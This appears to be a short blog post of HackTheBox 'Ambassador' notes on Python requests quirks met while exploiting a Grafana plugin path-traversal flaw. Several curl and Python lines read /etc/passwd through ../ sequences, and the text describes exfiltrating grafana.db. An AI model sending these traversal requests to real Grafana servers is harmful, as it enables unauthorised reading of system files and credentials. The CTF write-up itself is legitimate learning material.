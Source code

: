 +++
author = "Frenchie"
title = "Ambassador HTB"
date = "2023-01-29"
description = "Ambassador HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

While doing manual LFI at grafana endpoint, I tried to exfill sqlite3 db from /var/lib/grafana/grafana.db

<!--more-->

The initial code:
```python
if r.status_code == 200:
    print(r.text)
```

Using r.text from requests library caused sqlite3 db became corrupted.
Need to use proper method.
```python
if r.status_code == 200:
    with open("grafana-python.db", "wb") as file:
        file.write(r.content)
```

> Use requests.content instead of requests.text for bytes-type data.
> [Docs](https://requests.readthedocs.io/en/latest/user/quickstart/#binary-response-content)

#### Encodings
When you receive a response, Requests makes a guess at the encoding to use for decoding the response when you access the Response.text attribute. Requests will first check for an encoding in the HTTP header, and if none is present, will use charset_normalizer or chardet to attempt to guess the encoding.

If chardet is installed, requests uses it, however for python3 chardet is no longer a mandatory dependency. The chardet library is an LGPL-licenced dependency and some users of requests cannot depend on mandatory LGPL-licensed dependencies.

When you install requests without specifying [use_chardet_on_py3] extra, and chardet is not already installed, requests uses charset-normalizer (MIT-licensed) to guess the encoding.

The only time Requests will not guess the encoding is if no explicit charset is present in the HTTP headers and the Content-Type header contains text. In this situation, RFC 2616 specifies that the default charset must be ISO-8859-1. Requests follows the specification in this case. If you require a different encoding, you can manually set the Response.encoding property, or use the raw Response.content.

---
## Workaround for url normalization in requests module
For sending GET requests without url normalization, use curl with `--path-as-is`

```text
curl --path-as-is http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd -x 127.0.0.1:8080
```

With requests module in python3, using requests.get will not work. Need to use prepared requests.
[Docs](https://requests.readthedocs.io/en/latest/user/advanced/#prepared-requests)

```python
import requests

url = 'http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd'
proxies = {"http": "127.0.0.1:8080"}
s = requests.Session()
req = requests.Request(method='GET', url=url)
prep = req.prepare()
prep.url = url
r = s.send(prep, verify=False, timeout=3)
# r = s.send(prep, verify=False, timeout=3, proxies=proxies)  # WILL NOT WORK WITH PROXIES
print(r.text)
```

> CANNOT using proxies in prepared requests. The url will get normalized!

---
## Remember typing http!
Curl can work without specifying protocol scheme.
```bash
curl 10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd --path-as-is
```

in Python3, without protocol scheme (http/https) requests will error: No connection adapters were found.

> Without the http:// part, requests has no idea how to connect to the remote server.
>
>Note that the protocol scheme must be all lowercase; if your URL starts with HTTP:// for example, it won’t find the http:// connection adapter either.
> — <cite>[source](https://stackoverflow.com/questions/15115328/python-requests-no-connection-adapters)</cite>
